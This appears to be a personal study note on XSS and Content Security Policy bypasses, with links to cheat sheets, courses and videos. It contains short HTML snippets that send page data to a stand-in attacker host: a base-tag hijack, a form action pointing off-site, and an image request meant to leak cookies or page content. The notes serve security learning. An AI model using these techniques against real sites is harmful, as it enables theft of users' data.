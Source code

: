 
       ============================================================


**XSS payload without - &<>"=()**
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without

**Script Gadgets**
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4

+ DOM XSS notes has more detail on this


       ============================================================
       
       
**Bypass CSP**
* Uses: CSP, CSS, Html Comments, Html Elements, JS Fucntions, URLs

+ _Whitelisting generic CDN domains_ - `generic.cdn.example.com`
 - Attacker can upload own scripts

+ Check if the _nonce_ value is properly set:
  ```Example
  <meta http-equiv="Content-Security-Policy" content="
      default-src 'self'; script-src 'self' 'nonce-rAnd0m';
  ">
  
  <script nonce="rAnd0m">
  	doWhatever();
  </script>
  ```

+ `base-uri` is not set:
     <base href="https://evil.example.com">
 - Once hijacked, relative URLs are vulnerable
 - I just make my evil.example.com have the same `href`/`forms`

+ `form-action` - specifies where forms can submit their data
   If it's not set:
     <form action=https://evil.example.com>
       <!--inputs-->
     </forms>

+ `script-src` that allow XSS:
 - `script-src 'unsafe-inline'`
 - `script-src http`
 - `script-src https`
 - `script-src *`

+ `img-src` - FIREFOX SPECIFIC
 - Stealing With Images
 - Only _works if image is above the html content_
 - Can transport sensitive info like cookies over using JS
   `<img src='https://evil.example.com?`
 - If you look at the _nework tab_ in the _developer tools_ the html from the webpage can be send


       
       ============================================================


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP